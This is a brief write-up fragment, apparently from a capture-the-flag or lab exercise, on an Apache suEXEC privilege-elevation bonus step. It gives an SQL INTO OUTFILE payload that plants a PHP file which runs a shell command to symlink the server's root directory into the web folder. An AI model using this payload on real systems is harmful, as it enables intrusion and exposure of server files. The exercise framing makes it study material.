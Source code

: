 # bonus - apache suEXEC 2

[Apache suEXEC privilege elevation](https://www.exploit-db.com/exploits/27397)

We use a similar approach to Writeup 5, but with a different injection type, creating a symlink to the root directory when executed (though it does not grant us root privileges).

``` sql
SELECT "<?php system('ln -sf / tree'); symlink('/', 'tree');?>" INTO OUTFILE '/var/www/forum/templates_c/exec_2.php'
```
